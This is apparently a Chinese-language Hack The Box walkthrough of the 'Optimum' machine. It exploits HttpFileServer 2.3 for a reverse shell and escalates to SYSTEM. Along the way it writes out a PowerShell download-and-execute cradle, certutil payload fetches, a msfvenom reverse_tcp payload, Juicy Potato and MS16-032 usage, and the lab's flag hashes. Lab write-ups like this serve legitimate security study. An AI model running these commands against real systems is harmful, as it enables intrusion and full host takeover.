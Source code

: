 # Optimum

- victim
  - 10.10.10.8
- local
  - 10.10.14.19

---

## 扫描结果分析

轻度扫描就一个80

## Web分析

HFS系统——`HttpFileServer 2.3`

EDB搜索

```
HFS Http File Server
```

选用https://www.exploit-db.com/exploits/39161

```bash
proxychains4 wget https://www.exploit-db.com/raw/39161 -O exp.py
cp /usr/bin/nc ./
python3 -m http.server 80
# 适配exp.py将ip和端口调整好
# local: sudo nc -lvvp 443
python exp.py 10.10.10.8 80
```

成功获得shell

user.txt

```
d0c39409d7b994a9a1389ebf38ef5f73
```

## Privilege Escalation

```shell
whoami /priv

SeChangeNotifyPrivilege       Bypass traverse checking       Enabled

systeminfo

Microsoft Windows Server 2012 R2 Standard
x64-based PC
```
x64架构不用自己编译，直接拉
```bash
proxychains4 wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
t.bat
```shell
whoami > C:\Users\kostas\Desktop\t.txt
user Administrator 123456
```
```shell
certutil -f -urlcache http://10.10.14.19/JuicyPotato.exe JuicyPotato.exe
certutil -f -urlcache http://10.10.14.19/t.bat t.bat

JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/k C:\Users\kostas\Desktop\t.bat" -l 1337
```

居然不行，PowerUp.ps1再查查

```bash
proxychains4 wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1
```

```powershell
#victim
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.19/PowerUp.ps1')
```

没有检测到

### Meterpreter 枚举

因为windows suggest在x64架构下不稳定，所以换meterpreter进行枚举

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=5555 -f exe > myshell.exe
```

```shell
certutil -f -urlcache http://10.10.14.19/myshell.exe myshell.exe
```

从32位migrate到64位如explorer上，稳一点，利于提权

```shell
search exploit/windows/local -o a.txt
cat a.txt |grep privesc
```

得到如下6个结果

```
"5","exploit/windows/local/appxsvc_hard_link_privesc","2019-04-09","normal","Yes","AppXSvc Hard Link Privilege Escalation"
"31","exploit/windows/local/gog_galaxyclientservice_privesc","2020-04-28","excellent","Yes","GOG GalaxyClientService Privilege Escalation"
"52","exploit/windows/local/ms16_032_secondary_logon_handle_privesc","2016-03-21","normal","Yes","MS16-032 Secondary Logon Handle Privilege Escalation"
"55","exploit/windows/local/ms18_8120_win32k_privesc","2018-05-09","good","No","Windows SetImeInfoEx Win32k NULL Pointer Dereference"
"67","exploit/windows/local/plantronics_hub_spokesupdateservice_privesc","2019-08-30","excellent","Yes","Plantronics Hub SpokesUpdateService Privilege Escalation"
"76","exploit/windows/local/ricoh_driver_privesc","2020-01-22","normal","Yes","Ricoh Driver Privilege Escalation"
```

枚举后（记得设置架构）发现`exploit/windows/local/ms16_032_secondary_logon_handle_privesc`可用

使用后得到SYSTEM

```
51ed1b36553c8461f4552c2e92b3eeed
```

